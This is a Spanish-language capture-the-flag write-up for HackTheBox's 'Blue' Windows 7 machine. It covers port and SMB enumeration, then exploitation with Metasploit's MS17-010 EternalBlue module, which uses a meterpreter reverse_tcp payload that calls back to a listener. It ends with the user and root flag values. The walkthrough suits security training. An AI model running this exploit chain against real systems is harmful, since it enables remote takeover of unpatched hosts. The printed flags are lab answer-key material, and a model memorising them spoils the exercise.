 # Blue

Plataforma: HackTheBox
OS: Windows
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 26 de enero de 2025 16:36
IP: 10.10.10.40

## Recopilación de información

<aside>
💡 Reconocimiento general

</aside>

Que sistema 

```bash
whichSystem.py 10.10.10.40

	10.10.10.40 (ttl -> 127): Windows
```

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -n -Pn -vvv 10.10.10.40 -oG targeted

PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49156/tcp open  unknown      syn-ack ttl 127
49157/tcp open  unknown      syn-ack ttl 127
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p135,139,445 -sCV 10.10.10.40 -oN targeted

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 2s, deviation: 2s, median: 1s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-26T15:40:38+00:00
| smb2-time: 
|   date: 2025-01-26T15:40:39
|_  start_date: 2025-01-26T15:36:56
```

- **Identificación de vulnerabilidades**
    - 135/tcp open  msrpc        Microsoft Windows RPC
    - 139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    - 445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

- **Enumeramos el HOST (139-445)**
    
    Enumeramos los recursos compartidos de la maquina
    
    ```bash
    smbclient -L 10.10.10.40 -N 
    
    	Sharename       Type      Comment
    	---------       ----      -------
    	ADMIN$          Disk      Remote Admin
    	C$              Disk      Default share
    	IPC$            IPC       Remote IPC
    	Share           Disk      
    	Users           Disk      
    ```
    
    Vemos que es un Windows 7 y probamos con metasploit si es vulnerable a EternalBlue
    
    Vemos que si.
    
    ```bash
    msf6 auxiliary(scanner/smb/smb_ms17_010) > show options
    msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOST 10.10.10.40
    RHOST => 10.10.10.40
    msf6 auxiliary(scanner/smb/smb_ms17_010) > run
    
    [+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf6 auxiliary(scanner/smb/smb_ms17_010) > 
    ```
    
    Procedemos a ejecutar el exploit en la Explotacion 1
    

## Explotación

<aside>
💡 Probamos diferentes accesos

</aside>

### Explotación 1

Probamos a ejecutar EternalBlue

```bash
msf6 > search eternal blue

Matching Modules
================
0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption

msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
                                              machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mac
                                             hines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.70.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
   
   
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.10.10.40
RHOST => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

```

### 

```bash

```

### Explotación posterior

<aside>
💡 Accedemos con metasploit a una consola meterpreter con usuario NT AUTHORITY\SYSTEM

</aside>

Obtenemos las flags del usuario haris y Administrator:

```bash
C:\Users\haris\Desktop>type user.txt
type user.txt
d552c4ae981f914576c21f1c689830b9

C:\Users\Administrator\Desktop>type root.txt
type root.txt
9ff673e656d4416b02b43e4c1ab509c4
```

## Conclusión

<aside>
💡 Maquina fácil sin escalada de privilegios

</aside>